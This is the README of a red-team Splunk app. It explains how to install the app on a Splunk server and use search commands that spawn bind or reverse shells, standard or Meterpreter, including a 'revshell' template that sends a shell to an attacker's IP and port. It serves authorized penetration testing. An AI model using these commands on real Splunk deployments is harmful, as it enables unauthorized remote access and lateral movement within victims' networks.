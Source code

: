 Splunk Shells App
Version 1.0

TBG Security
Ryan Hays

This app is to help with penetration testing and Red Teaming within environments that have a Splunk deployment.

This app will allow the engineer to spawn a Reverse of Bind Shell from a Splunk server to allow the engineer to
interact with the server and expand influence within the environment.

# Install
Download the release from https://github.com/MrJester/splunk_shells/releases/download/1.0/splunk_shells.tar.gz

Navigate to the "Manage Apps" and click on "Install app from file"

![Alt text](appserver/static/splunk_apps.png?raw=true "Optional Title")

Click on "Choose File" and select the downloaded release archive.

![Alt text](appserver/static/splunk_install.png?raw=true "Optional Title")

Once it is installed you will have to restart Splunk

![Alt text](appserver/static/splunk_restart.png?raw=true "Optional Title")

For Splunk v6.5 ONLY
Once Splunk is restarted click on Permissions for the splunk_shells app. Ensure the last permission "Sharing for config file-only objects" has "all apps" selected.

![Alt text](appserver/static/splunk_permissions.png?raw=true "Optional Title")

# Usage
using each of these shells can be done from the Search and Reporting app. Execute the following searches:

'| bindshell SHELLTYPE PORTNUMBER' 
SHELLTYPE - Specify std or msf (std = Standard Shell|msf = Meterpreter Shell)
PORTNUMBER - Specify the port you want the bind shell to listen on. If you do not specify a port number it defaults to 8888


'| revshell SHELLTYPE ATTACKERIP ATTACKERPORT' 
SHELLTYPE - Specify std or msf (std = Standard Shell|msf = Meterpreter Shell)
ATTACKERIP - Specify the IP that you want to shell to be sent back to. 
ATTACKERPORT - Specify the port you want the shell to be sent back to.

